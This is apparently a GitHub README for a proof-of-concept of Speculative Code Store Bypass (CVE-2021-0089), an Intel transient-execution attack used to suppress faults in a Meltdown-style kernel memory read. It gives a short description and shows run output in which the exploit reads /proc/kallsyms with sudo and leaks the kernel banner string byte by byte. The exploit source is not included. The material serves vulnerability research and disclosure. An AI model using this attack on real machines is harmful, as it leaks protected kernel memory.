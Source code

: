 # Speculative Code Store Bypass POC
Speculative Code Store Bypass Vulnerability Proof-of-Concept

# Description
Speculative Code Store Bypass (SCSB) is a new transient execution attack which exploits the self-modifying code (SMC) mechanism in Intel processor. 
Intel published this vulnerability on 2021-06-08 and assigned it CVE-2021-0089. Look at their explainations for details:
https://software.intel.com/content/www/us/en/develop/articles/software-security-guidance/advisory-guidance/speculative-code-store-bypass.html

We discoverd this vulnerability a long time ago and always used it as a novel way to suppress the fault in Meltdown-type attack. This POC is a demonstration. It is a little pity that we fail to disclose it in the first place :(. 
 
The Meltdown code borrowed in this POC is at:
https://github.com/paboldin/meltdown-exploit

# Result
```
$ make
gcc -O3 -o scsb scsb.c

$ ./run.sh 
looking for linux_proc_banner in /proc/kallsyms
protected. requires root
+ find_linux_proc_banner /proc/kallsyms sudo
+ sudo sed -n -re s/^([0-9a-f]*[1-9a-f][0-9a-f]*) .* linux_proc_banner$/\1/p /proc/kallsyms
+ linux_proc_banner=ffffffff81800060
+ set +x
cached = 158, uncached = 404, threshold 208
read 25 % (score=913/1000)
read 73 s (score=904/1000)
read 20   (score=869/1000)
read 76 v (score=850/1000)
read 65 e (score=839/1000)
read 72 r (score=933/1000)
read 73 s (score=864/1000)
read 69 i (score=897/1000)
read 6f o (score=867/1000)
read 6e n (score=861/1000)
read 20   (score=789/1000)
read 25 % (score=809/1000)
read 73 s (score=883/1000)
read 20   (score=703/1000)
read 28 ( (score=856/1000)
read 62 b (score=774/1000)
read 75 u (score=770/1000)
read 69 i (score=682/1000)
read 6c l (score=856/1000)
read 64 d (score=698/1000)
read 64 d (score=776/1000)
read 40 @ (score=850/1000)
read 6c l (score=683/1000)
read 67 g (score=846/1000)
read 77 w (score=755/1000)
read 30 0 (score=725/1000)
read 31 1 (score=830/1000)
read 2d - (score=827/1000)
read 34 4 (score=766/1000)
read 33 3 (score=791/1000)
read 29 ) (score=736/1000)
read 20   (score=699/1000)
```
